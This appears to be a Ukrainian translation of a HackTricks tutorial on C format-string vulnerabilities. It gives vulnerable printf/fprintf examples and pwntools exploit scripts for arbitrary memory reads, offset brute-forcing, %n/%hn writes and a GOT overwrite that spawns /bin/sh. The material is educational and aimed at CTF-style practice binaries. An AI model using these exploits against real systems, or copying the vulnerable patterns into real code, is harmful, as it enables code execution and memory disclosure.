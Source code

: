 # Форматні рядки

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо ви зацікавлені в **кар'єрі в хакерстві** та хочете зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

## Основна інформація

У C **`printf`** - це функція, яка може бути використана для **виведення** деякого рядка. **Перший параметр**, який очікує ця функція, - це **сирий текст з форматерами**. **Наступні параметри** - це **значення**, які потрібно **замінити** на **форматери** з сирого тексту.

Інші вразливі функції - це **`sprintf()`** та **`fprintf()`**.

Вразливість виникає, коли **текст зловмисника використовується як перший аргумент** для цієї функції. Зловмисник зможе створити **спеціальний вхід, зловживаючи** можливостями **формату printf** для читання та **запису будь-яких даних за будь-якою адресою (читабельною/записуваною)**. Таким чином, він зможе **виконувати довільний код**.

#### Форматери:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Приклади:**

* Вразливий приклад:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Звичайне використання:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* З відсутніми аргументами:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf вразливий:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Доступ до вказівників**

Формат **`%<n>$x`**, де `n` - це число, дозволяє вказати printf вибрати n параметр (з стеку). Тож, якщо ви хочете прочитати 4-й параметр зі стеку, використовуючи printf, ви можете зробити:
```c
printf("%x %x %x %x")
```
і ви б читали з першого до четвертого параметра.

Або ви могли б зробити:
```c
printf("%4$x")
```
і безпосередньо прочитати четвертий.

Зверніть увагу, що атакуючий контролює параметр `printf`, **що в основному означає, що** його введення буде в стеку, коли викликається `printf`, що означає, що він може записувати конкретні адреси пам'яті в стек.

{% hint style="danger" %}
Атакуючий, що контролює цей ввід, зможе **додати довільну адресу в стек і змусити `printf` отримати доступ до них**. У наступному розділі буде пояснено, як використовувати цю поведінку.
{% endhint %}

## **Довільне Читання**

Можливо використовувати форматер **`%n$s`**, щоб змусити **`printf`** отримати **адресу**, що знаходиться на **n позиції**, слідуючи за ним, і **друкувати її так, ніби це рядок** (друкувати до тих пір, поки не буде знайдено 0x00). Отже, якщо базова адреса бінарного файлу **`0x8048000`**, і ми знаємо, що введення користувача починається на 4-й позиції в стеці, можливо надрукувати початок бінарного файлу за допомогою:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Зверніть увагу, що ви не можете поставити адресу 0x8048000 на початку введення, оскільки рядок буде обірвано на 0x00 в кінці цієї адреси.
{% endhint %}

### Знайти зсув

Щоб знайти зсув до вашого введення, ви можете надіслати 4 або 8 байтів (`0x41414141`), за якими слідує **`%1$x`** і **збільшувати** значення, поки не отримаєте `A's`.

<details>

<summary>Брутфорс зсуву printf</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Як корисно

Випадкові читання можуть бути корисними для:

* **Вивантаження** **бінарного** файлу з пам'яті
* **Доступу до конкретних частин пам'яті, де зберігається чутлива** **інформація** (як-от канарейки, ключі шифрування або користувацькі паролі, як у цьому [**CTF виклику**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Випадкове записування**

Форматер **`%<num>$n`** **записує** **кількість записаних байтів** у **вказану адресу** в параметрі \<num> у стеку. Якщо зловмисник може записати стільки символів, скільки захоче, використовуючи printf, він зможе змусити **`%<num>$n`** записати випадкове число в випадкову адресу.

На щастя, щоб записати число 9999, не потрібно додавати 9999 "A" до введення, для цього можна використовувати форматер **`%.<num-write>%<num>$n`**, щоб записати число **`<num-write>`** у **адресу, на яку вказує позиція `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Однак, зверніть увагу, що зазвичай для запису адреси, такої як `0x08049724` (що є ВЕЛИЧЕЗНИМ числом для запису одночасно), **використовується `$hn`** замість `$n`. Це дозволяє **записати лише 2 байти**. Тому ця операція виконується двічі: один раз для найвищих 2B адреси і ще раз для найнижчих.

Отже, ця вразливість дозволяє **записувати що завгодно в будь-яку адресу (произвольний запис).**

У цьому прикладі метою буде **перезаписати** **адресу** **функції** в таблиці **GOT**, яка буде викликана пізніше. Хоча це може зловживати іншими техніками произвольного запису для виконання:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Ми будемо **перезаписувати** **функцію**, яка **отримує** свої **аргументи** від **користувача** і **вказує** на **функцію** **`system`**.\
Як згадувалося, для запису адреси зазвичай потрібно 2 кроки: спочатку **записується 2 байти** адреси, а потім інші 2. Для цього використовується **`$hn`**.

* **HOB** викликається для 2 вищих байтів адреси
* **LOB** викликається для 2 нижчих байтів адреси

Потім, через те, як працює формат рядка, вам потрібно **спочатку записати найменший** з \[HOB, LOB\], а потім інший.

Якщо HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Якщо HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Шаблон

Ви можете знайти **шаблон** для підготовки експлойту для цього типу вразливості в:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Або цей базовий приклад з [**тут**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Форматні рядки до BOF

Можливо зловживати діями запису вразливості форматного рядка, щоб **записувати в адреси стеку** та експлуатувати вразливість типу **переповнення буфера**.

## Інші приклади та посилання

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 біт, без relro, без canary, nx, без pie, базове використання форматних рядків для витоку прапора зі стеку (немає потреби змінювати потік виконання)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 біт, relro, без canary, nx, без pie, форматний рядок для перезапису адреси `fflush` з функцією win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 біт, relro, без canary, nx, без pie, форматний рядок для запису адреси всередині main в `.fini_array` (щоб потік повертався ще раз) і запису адреси до `system` в таблиці GOT, що вказує на `strlen`. Коли потік повертається до main, `strlen` виконується з введенням користувача і вказує на `system`, він виконає передані команди.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо ви зацікавлені в **кар'єрі в хакерстві** та хочете зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Вчіться та практикуйте Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Підтримка HackTricks

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.
{% endhint %}
